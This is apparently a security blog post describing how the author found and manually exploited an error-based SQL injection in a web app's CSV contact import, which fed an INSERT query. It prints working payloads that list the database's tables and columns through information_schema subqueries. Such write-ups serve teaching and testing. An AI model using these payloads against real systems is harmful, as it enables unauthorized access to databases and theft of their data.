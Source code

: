 +++
title = 'Exploiting Sql Injection Insert Statement'
date = 2025-01-09T15:11:14+01:00
draft = true
type = "post"
excerpt = "In this blog post, I will discuss how I manually exploited an SQL injection vulnerability in an INSERT query statement."
authors = ["Hassan AL ACHEK"]
tags = []
categories = []
readingTime = 5  
hero = "/images/default.jpg"
+++
# What is SQL Injection?
SQL Injection is a vulnerability that occurs when user input is directly used to build a query statement, which is then executed against the application's database. By taking user input without proper validation and sanitization and dynamically building SQL queries, an attacker can insert carefully crafted input—often referred to as a payload—to exploit and execute malicious queries. These queries can allow the attacker to read, write, delete, or modify data in the database. 

There are multiple types of SQL injection. For more detailed information about this vulnerability, I recommend checking out PortSwigger Academy or the OWASP guide.

# INSERT Statement:
This statement is usually used to insert new row into an SQL table. So for example in a web application if you want to insert a new user into the users table you will execute something like that:

`INSERT INTO users(name, mail, phone_number, password) VALUES ('Hassan', 'hassan@gmail.com', '777777', 'pass123')`

# SQL Injection into INSERT Statement
## History:
I was testing a website and found a functionality that allowed me to import contacts from a CSV file. The CSV file consisted of 5 columns, and I could choose the type of separator used in the file. The default separator was a comma (,), but I could also choose a slash (/) or a semicolon (;).

## The Vulnerability:
After testing this functionality, I noticed that the contacts imported from the CSV file were saved into the database for the user I was logged in as. 

This was done to store the contacts so that the user could use them later—for example, to send messages to these contacts or create groups for bulk SMS sending.

The header of the CSV files is the following:
`Name, Family Name, Number, Email, Info`

I decided to put a `'` in one of the columns, so i created a CSV file with the following row:

`hassan, alachek', 7777, hassan@gmail.com, engineer`
The result was and i clicked import i got the following SQL error:

```
dberr: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '7777', 't', 't', 'Axxxxxx')' at line 1
INSERT INTO addressbook (`name`, `family_name`, `phone`, `email`, `info`, `userid`) VALUES('t', 't'', '7777', 't', 't', 'Axxxxxx')   
```

So this is an error based SQLI. I decided to exploit it manually by crafting each time a new CSV file and import it to the web application.

![Import Functionality](/images/sqli-import.png)

### Reading All Table Names:

```mysql
test;test;test;test',(SELECT GROUP_CONCAT(table_name SEPARATOR '/ ') FROM information_schema.tables WHERE table_schema != "mysql" AND table_schema != "information_schema"),'Axxxxxx')#;test
```

The resulting SQL query:

```mysql
INSERT INTO addressbook (`name`, `family_name`, `phone`, `email`, `info`, `userid`) VALUES ('test', 'test', 'test', 'test', (SELECT GROUP_CONCAT(table_name SEPARATOR '/ ') FROM information_schema.tables WHERE table_schema != "mysql" AND table_schema != "information_schema"), 'Axxxxxx')
```
![All DB Tables](/images/sqli-result-tables.png)

### Reading All Column Names:

```mysql
test;test;test;test',(SELECT GROUP_CONCAT(column_name SEPARATOR '/ ') FROM information_schema.columns WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_name="history_detailed"),'Axxxxxx')#;test
```

The resulting SQL query:
```mysql
INSERT INTO addressbook (`name`, `family_name`, `phone`, `email`, `info`, `userid`) VALUES ('test', 'test', 'test', 'test', (SELECT GROUP_CONCAT(column_name SEPARATOR '/ ') FROM information_schema.columns WHERE table_schema != "mysql" AND table_schema != "information_schema" AND table_name="history_detailed"), 'Axxxxxx')
```

Using a nested query allows you to execute the inner query and then replace its result into the `VALUES` clause of the `INSERT` query.

Below is an illustration of the execution flow:

![Execution Flow](/images/sqli-execution-flow.png)





